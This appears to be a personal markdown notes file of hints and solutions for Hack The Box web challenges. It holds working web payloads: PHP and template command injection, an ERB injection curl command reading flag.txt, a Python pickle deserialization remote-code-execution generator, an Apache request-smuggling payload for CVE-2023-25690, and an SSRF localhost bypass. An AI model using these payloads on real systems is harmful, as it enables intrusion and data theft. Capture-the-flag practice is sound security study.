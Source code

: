 **01 web_lovetok:**

 - Link: https://app.hackthebox.com/challenges/lovetok
 - Hint/Solution "?format=${system(@_GET[cmd]}&cmd=ls ../"
 - Explanation: 
	1. http://178.62.11.21:30505/: This is the base URL.
    2. ?format=$_{system($_GET[1])}: This part of the URL suggests an attempt to inject code. 
   3. It looks like it's trying to use the system function in PHP to execute a command specified in the $_GET[1] parameter.
   4. &1=ls+/: The &1=ls+/ part is likely an attempt to pass the command ls+/ as the value for the $_GET[1] parameter. 
   5. This command typically lists the files and directories in a Unix/Linux system.

**02 Toxic:** cookie to base64
 - Link: https://app.hackthebox.com/challenges/toxic
 -  Hint: Cache is Encoded With Base64 and LFI to RCE via Header Injection.
 - Solution: https://dhanush-ramuk.medium.com/toxic-hackthebox-challenge-walkthrough-easy-5629d066c127
     
**03 Neonify:**
    

 - Link: https://app.hackthebox.com/challenges/neonify
 - Hint: Encode With url Encoding.
	 - <%= File.open('flag.txt').read %> # Read file
 -  Solution: 
	 - ```curl 159.65.20.166:32127 \ -s -X POST -d 'neon=a %3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' | grep -Eo 'HTB{.*}'```
 -  Explanation: https://drt.sh/posts/htb-neonify/

             
   
    
**05 COP:**
    

 - Link: https://app.hackthebox.com/challenges/cop
 - Hint: No Flag value in DB, use script
```
import pickle
import base64
import os

payload = 'cp flag.txt application/static/.'

class RCE:
    def __reduce__(self):
        return os.system, (payload,)

if __name__ == '__main__':
    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
```
 - Steps:
	 - run script on local copy the <value> output and 
		add to the url like 
		target/1' UNION SELECT '<VALUE>
 - Solution: https://drt.sh/posts/htb-cop/

**06 Render Quest:**
    

 - Link: https://app.hackthebox.com/challenges/renderquest
 - Hint: Prepare A malicious Like that can have Command in it
	 1. go https://webhook.site/    	
	 2. Preaper Request with Respond Body of {{.FetchServerInfo "ls -la"}}
	 3. Modify it as you go
 - Solution: https://medium.com/@tanish.saxena26/hackthebox-renderquest-cf6c493d7b83

**07 ApacheBlaze:**
 - Link: https://app.hackthebox.com/challenges/ApacheBlaze
 - Hint: CVE-2023–25690 (https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: localhost:1337

-----------------------------------
Reminder for encoding : 

\r\n     ->  %0d%0a
\r\n\r   ->  %0d%0a%0d
```
 - 	After Url Encoding
```
   GET
   /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
	Host: localhost:1337
   ```
- Solution: https://medium.com/@reinhardt.pwn/hackthebox-challenge-write-up-apacheblaze-a32643f19c45

**07 ProxyAsAService:**
- Link: https://app.hackthebox.com/challenges/proxyasaservice
- Hint: Bypass Local Host IP. Flag Stored in debug/environment
- Solution:
   		```
	 	http://159.65.20.166:32723/?url=@0.0.0.0:1337/debug/environment
		```
- Explanation: https://medium.com/@reinhardt.pwn/hackthebox-challenge-write-up-proxyasservice-ed593e9f179b
